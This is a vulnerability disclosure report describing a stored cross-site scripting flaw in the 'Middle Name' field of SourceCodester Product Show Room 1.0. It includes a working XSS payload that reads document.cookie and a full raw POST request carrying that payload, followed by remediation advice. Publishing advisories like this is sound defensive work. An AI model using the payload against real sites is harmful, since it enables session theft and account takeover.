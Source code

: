Stored Cross-Site Scripting Vulnerability in SourceCodester Product Show Room 1.0 
:

    Vendor: Sourcecodester
    Product: Product Show Room 1.0
    Product URL: Product Show Room 1.0

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Product Show Room 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Middle Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in Middle Name
    Severity: High
    Affected URL: /psrs/classes/Users.php?f=save
    Affected Parameter: Middle Name
    HTTP Method: POST

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Middle Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Middle Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/psrs/classes/Users.php?f=save

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the Middle name parameter as shown below and send the request to the server.

 -----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="middlename"

"><img src=x onerror=alert(document.cookie)>


 In the browser just create an account and navigate to homepage

https://drive.google.com/file/d/1CHgwoOWEVzS_upDJSTGQBMdSoVwqKAKQ/view?usp=drive_link
Payload:

Content-Disposition: form-data; name="middlename"

"><img src=x onerror=alert(document.cookie)>


Request:

POST /psrs/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------20625722601167454874980765703
Content-Length: 1176
Origin: http://localhost
Connection: close
Referer: http://localhost/psrs/admin/?page=user/manage_user
Cookie: PHPSESSID=ne013b16edsf0e0up00dsppfhb
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="id"


-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="firstname"

"><img src=x onerror=alert(document.cookie)>
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="middlename"

"><img src=x onerror=alert(document.cookie)>
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="lastname"

"><img src=x onerror=alert(document.cookie)>
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="username"

mohit.ahir7086@gmail.com
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="password"

Ramasra1247@
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="type"

1
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream

-----------------------------20625722601167454874980765703--

Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/
Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the Middle Name parameter of /psrs/classes/Users.php?f=save, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.